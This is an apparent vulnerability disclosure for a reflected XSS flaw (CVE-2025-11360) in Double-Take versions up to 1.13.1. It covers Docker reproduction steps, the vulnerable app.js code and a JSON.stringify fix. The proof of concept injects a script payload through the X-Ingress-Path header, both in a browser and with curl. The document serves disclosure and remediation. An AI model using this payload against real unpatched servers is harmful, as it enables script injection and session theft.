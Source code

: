 # CVE-2025-11360 - XSS in 'Double-Take' Facial Recognition Software

Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in version <=1.13.1 of double-take: https://github.com/jakowenko/double-take and https://hub.docker.com/r/jakowenko/double-take.
The maintainer fixed the vulnerability in version 1.13.2 after I responsibly disclosed the issue to him.

Specifically, the vulnerability is located in the `api/src/app.js` file, which evaluates unsanitized HTTP GET headers passed via the `'X-Ingress-Path'` header.
This allows an attacker to inject arbitrary JavaScript into the response, resulting in reflected XSS when the UI is accessed with a malicious header present.

## Affected Versions:
double-take <=1.13.1, github commit: 8e2728d283b3901d688c2454086fd0b512739b53

## Fixed Version:
double-take 1.13.2, github commit: 92521a0bc8ba70f64c4f794332d48387663ba20e

## CVSS v3.1 Score: 4.3 (Medium)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Proof of Concept and Steps to Reproduce:

1. Download "Double Take" <=1.13.1:
```https://github.com/jakowenko/double-take/archive/refs/tags/v1.13.1.zip```

```cd double-take-1.13.1```

2. Point docker-compose.yml to version 1.13.1:

`docker-compose.yml`
```
version: '3.7'

volumes:
  double-take:

services:
  double-take:
    container_name: double-take
    image: jakowenko/double-take:1.13.1
    restart: unless-stopped
    volumes:
      - double-take:/.storage
    ports:
      - 3000:3000
```

3. Start "Double Take" using docker compose:
```docker compose up -d```

5. Set the following HTTP header in Chrome (via the ModHeader extension or similar):
```X-Ingress-Path: ';window.onload = function() { alert(1); }//```


6. Visit the Double-Take UI in a browser:
```http://localhost:3000```

You will see a JavaScript popup alert - confirming JavaScript execution.

6. Alternatively, executing via curl demonstrates that the windows.ingressUrl parameter populates with the payload:
```curl -H "X-Ingress-Path: ');window.onload = function() { alert(1); }//" http://localhost:3000/```


## Impact:
This vulnerability is an example of Unauthenticated Reflected XSS. An attacker who compromises this flaw could execute arbitrary JavaScript in a victim's browser session, steal session cookies or authentication tokens,
extract sensitive information, or impersonate users to deliver social engineering attacks. This particular exploit requires header injection (via `X-Ingress-Path`),
but it still can be exploited in the wild via misconfigured reverse proxies, malicious browser extensions, or insecure internal tooling that injects headers. Exploiting this vulnerability via a proxy is particularly dangerous since double take is often used in home lab setups, where users setup reverse proxies to access their servers from outside of their own network. A compromised proxy could trivially exploit this vulnerability for arbitrary user requests being sent to the internal server double take runs on.

## Remediation:
The core vulnerability stems from the html.replace() function (lines 27-34) in `double-take/api/src/app.js`:

    html.replace(
      '</head>',
      `<script>
        window.ingressUrl = '${req.headers['x-ingress-path'] || ''}';
        window.publicPath = '${UI?.PATH || ''}';
      </script>
      </head>`
    )

This function directly embeds unsanitized input from the `X-Ingress-Path` header of a `GET` request into a JavaScript `<script>` block. 
In order to prevent this exploit, I recommended safely escaping values with a function like `JSON.stringify()`:

```
const ingressUrlSafe = JSON.stringify(req.headers['x-ingress-path'] || '');
const publicPathSafe = JSON.stringify(UI?.PATH || '');

res.send(
  html.replace(
    '</head>',
    `<script>
      window.ingressUrl = ${ingressUrlSafe};
      window.publicPath = ${publicPathSafe};
    </script>
    </head>`
  )
);
```

The project maintainer implemented my fix in v1.13.2, as can be seen in the commit comment history on github (92521a0bc8ba70f64c4f794332d48387663ba20e).

